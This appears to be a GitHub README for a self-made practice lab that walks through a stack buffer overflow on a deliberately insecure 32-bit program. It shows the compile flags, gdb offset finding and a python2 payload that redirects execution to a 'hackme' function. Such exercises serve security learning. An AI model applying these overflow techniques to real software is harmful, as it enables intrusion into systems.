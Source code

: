 # bo-rop
Practicing buffer overflow using a ROP by [cr0w](https://youtu.be/6sUd3AA7Q50)

# Building
`gcc -m32 -no-pie insecure.c -o insecure`

# Target information
1. We are working in x86 (compiled with `-m32`)
2. Not stripped binary, so that we have the symbols in `gdb`
3. NX is enabled, we are forced to use ROP rather than write and [run shellcode directly from the stack](https://en.wikipedia.org/wiki/NX_bit).
4. PIE is disabled (compiled with `-no-pie`)

`file insecure`
> insecure: **ELF 32-bit LSB pie executable**, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=dee42c33330fab103841ff5f0745bdbdccb0705a, for GNU/Linux 3.2.0, **not stripped**

`pwn checksec ./insecure`
> Arch:       i386-32-little
> 
> RELRO:      Partial RELRO
> 
> Stack:      No canary found
> 
> NX:         NX enabled
>
> PIE:        No PIE (0x8048000)
> 
> Stripped:   No



# Exploitation

## Input

Using `python2` we can generate an input and pipe it to the program, resulting in a segfault:

`python2 -c 'print "A"*400' | ./insecure`

> [+] user supplied: 400-bytes!
> 
> fish: Process 60137, './insecure' from job 1, 'python2 -c 'print "A"*400' | ./…' terminated by signal SIGSEGV (Address boundary error)


## Controlling the EIP

`gdb-peda$ r < input.txt`

We can see the EIP being overwritten to `0x41414141 ('AAAA')`


In order to control the EIP we must first find what offset it is in our overflowed buffer, we create a recognizable pattern and output it to `pattern.txt`:

`gdb-peda$ pattern create 400 pattern.txt`

> AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%SA%pA%TA%qA%UA%rA%VA%tA%WA%uA%XA%vA%YA%wA%ZA%xA%y

We run the program with our pattern as an input and look for the EIP value:

`gdb-peda$ r < pattern.txt`

> EIP: 0x4325416e ('nA%C')


Now we can search the pattern:

`gdb-peda$ pattern offset 0x4325416e`

> 1126515054 found at offset: **216**

## Testing EIP

We check if the offset is correct by setting `BBBB` right where EIP should be. First we generate the input:

`python2 -c 'print "A"*216 + "BBBB"' > b_test.txt`

We run the program with out b test:

`gdb-peda$ r < b_test.txt`

> EIP: 0x42424242 ('BBBB')

and it worked!!

## ROP time

`gdb-peda$ info functions`

> All defined functions:

> Non-debugging symbols:

> 0x08049000  _init

> 0x08049030  __libc_start_main@plt

> 0x08049040  read@plt

> 0x08049050  printf@plt

> 0x08049060  system@plt

> 0x08049070  _start

> 0x0804909d  __wrap_main

> 0x080490b0  _dl_relocate_static_pie

> 0x080490c0  __x86.get_pc_thunk.bx

> 0x080490d0  deregister_tm_clones

> 0x08049110  register_tm_clones

> 0x08049150  __do_global_dtors_aux

> 0x08049180  frame_dummy

> 0x08049186  hackme

> 0x080491b1  secure

> 0x0804921a  main

> 0x08049236  __x86.get_pc_thunk.ax

> 0x0804923c  _fini

We can see `hackme()` located at `0x08049186`.

Now we can just put the address of `hackme()` inside the EIP, and it will return into the function!

`python2 -c 'print("A"*216 + "\x86\x91\x04\x08")' | ./insecure`

> hacked!

**Fin**
